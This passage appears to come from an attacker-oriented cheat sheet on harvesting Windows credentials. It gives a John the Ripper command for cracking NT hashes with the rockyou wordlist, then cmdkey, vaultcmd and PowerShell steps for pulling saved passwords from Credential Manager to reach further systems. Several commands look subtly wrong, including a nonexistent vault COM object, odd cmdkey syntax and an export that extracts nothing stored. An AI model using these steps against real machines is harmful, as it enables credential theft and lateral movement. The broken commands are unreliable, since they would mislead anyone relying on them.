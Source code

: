    - Crack with John the Ripper:
		```bash
		john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
		```
  
# Credential Manager

Windows Credential Manager stores saved credentials, such as passwords for applications, network shares, VPNs, and other services. Attackers with appropriate privileges can extract these credentials to gain access to further systems or services.

#### Prerequisites
- Administrator privileges or SYSTEM-level access on the target machine.
- Can only retrieve credentials for which you have access rights.

#### Extract Credentials from Credential Manager

1. List Stored Credentials:
   PowerShell allows you to list the credentials stored in the Windows Credential Manager using the `cmdkey` utility:
   ```powershell
   cmdkey /list
   ```

2. Extract Specific Credentials:
   To extract credentials for a specific target (such as a server or service), use:
   ```powershell
   cmdkey /list:target=<target_name>
   ```

3. Export Credentials Using PowerShell:
   While you cannot directly export credentials from the Credential Manager in plaintext via PowerShell, you can export other credential types (such as those entered manually via `Get-Credential`). This command saves the credentials to an XML file for later use:
   ```powershell
   Get-Credential | Export-Clixml -Path "C:\temp\credentials.xml"
   ```

4. Import Credentials from File:
   You can later import and reuse the credentials from the XML file:
   ```powershell
   $creds = Import-Clixml -Path "C:\temp\credentials.xml"
   ```

#### Extract Credentials via `vaultcmd`

1. Extract Credentials from Windows Vault Using `vaultcmd`:
   Windows stores certain types of credentials in the Credential Manager vault, which can be accessed using the `vaultcmd` utility. This command lists stored Windows credentials:
   ```powershell
   vaultcmd /listcreds:"Windows Credentials"
   ```

2. Extract and Display Credentials for a Specific Target Using PowerShell:
   PowerShell can also directly access the Credential Manager vault using the COM object `Microsoft.Windows.Security.Credentials.Vault`. This method allows retrieving stored credentials programmatically:
   ```powershell
   $Vault = New-Object -ComObject Microsoft.Windows.Security.Credentials.Vault
   $Vault.Retrieve("target")
   ```
